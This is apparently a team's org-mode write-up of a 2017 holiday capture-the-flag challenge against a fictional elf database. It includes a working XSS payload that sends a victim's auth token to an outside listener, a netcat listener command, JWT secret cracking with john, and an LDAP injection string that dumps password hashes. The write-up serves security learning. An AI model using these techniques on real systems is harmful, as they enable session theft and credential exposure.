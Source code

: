 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Fetch the letter to Santa from the North Pole Elf Database at
http://edb.northpolechristmastown.com. Who wrote the letter?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Do we know anything about this system already?

Hints:

List any useful hints here.

Blog Posts:

Are any of these useful?

- Putting My Zero Cents In: Using the Free Tier on Amazon Web Services
  (EC2)
  https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2
  Spinning up an EC2 instance, but also a lot of emphasis on how to use
  SSH keys.
- Your Pokemon Guide for Essential SQL Pen Test Commands
  https://pen-testing.sans.org/blog/2017/12/09/your-pokemon-guide-for-essential-sql-pen-test-commands
  SQL basics (SELECT, WHERE, wildcards, ORDER BY, GROUP BY, COUNT)
- Exploiting XXE Vulnerabilities in IIS/.NET
  https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities
  Including remote content in XML
- Why You Need the Skills to Tinker with Publicly Released Exploit Code
  https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and
  CVE-2017-9805 Code: https://github.com/chrisjd20/cve-2017-9805.py
- Go To The Head Of The Class: LD\_PRELOAD For The Win
  https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win
- A Spot of Tee
  https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted
  bash shell, and bypassing the I/O restriction with tee
- Understanding and Exploiting Web-based LDAP
  https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap
  LDAP syntax, LDAP injection
- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning
  masscan

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

What are we trying to accomplish?

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Describe the thought process that we tried here. How were we able to use
the hints or the blog posts?

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Summarize the reference solution that we found

My solution:

This was a multi stage exploit.

The first stage was XSS via the support request.

First I attempted to steal document.cookie, but then i realized the cookie
didn't help, and one needed the auth token mentioned in the html/javascript
source:

#+BEGIN_SRC js
    token = localStorage.getItem("np-auth");
#+END_SRC


on l2s:

#+BEGIN_SRC
$ nc -v -l -p 4444 on l2s
#+END_SRC

#+BEGIN_SRC
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+localStorage.getItem('np-auth');\"></img>"
#+END_SRC

With the success of the XSS attack, the stolen token was stored in [output/jwt](output/jwt).

Unfortunately the token had expired 4 months ago, and could no longer be used to create a new session:

#+BEGIN_SRC python
>>> import jwt
>>> token=open("jwt").read().strip()
>>> jwt.decode(token, verify=False)
{'dept': 'Engineering', 'ou': 'elf', 'expires': '2017-08-16 12:00:47.248093+00:00', 'uid': 'alabaster.snowball'}
#+END_SRC

We needed to crack the encryption key in order to forge a new, valid one.  We
used jwt2john.py and john to crack it.  The Makefile shows the process:

#+BEGIN_SRC
jwt.john: ../tools/jwt2john.py jwt
	python3 ../tools/jwt2john.py $(shell cat jwt) > jwt.john

john.txt: jwt.john
	john  --format=HMAC-SHA256 jwt.john
	john  --format=HMAC-SHA256 jwt.john -show > john.txt
#+END_SRC

jwt2john is used to convert the raw jwt token to a file format john can
understand, and then john is used to crack it:

#+BEGIN_SRC
$ make john.txt
python3 ../tools/jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I > jwt.john
john  --format=HMAC-SHA256 jwt.john
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status

3lv3s            (?)
1g 0:00:06:22 DONE 3/3 (2018-01-10 10:45) 0.002613g/s 835027p/s 835027c/s 835027C/s 3lv3s
Use the "--show" option to display all of the cracked passwords reliably
Session completed
john  --format=HMAC-SHA256 jwt.john -show > john.txt
$ cat john.txt
?:3lv3s
#+END_SRC

Cracking the jwt token took 6 minutes and found that the secret key was =3lv3s=.

TODO: show make_jwt.py and alabaster.jwt makefile targets and how it was used to login. using the browser tools

To automate the process [tools/edb.py](tools/edb.py) was written to exploit the ldap injection vuln using the search string

#+BEGIN_SRC
    name=))(department=it)(|(cn=
#+END_SRC

and by passing =*= as the attributes query field. With that query and all
attributes it is able to grab the entire ldap database including password
hashes.

The letter page requires a valid password, convienently a google search for santas md5 password quickly finds a valid password.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Any other, easier solutions?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

Do we know what issue(s) people were running into?

Cracking the JWT key was tricky without the propper tools.
My first python based solution was broken.  A fixed version was too slow.
running it using pypy helped a bit, but the pyjwt library is not optimized for cracking.
https://github.com/lmammino/jwt-cracker was a bit faster, but john outperformed
everything.  The hard part was finding out how to use john to crack a jwt secret key.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
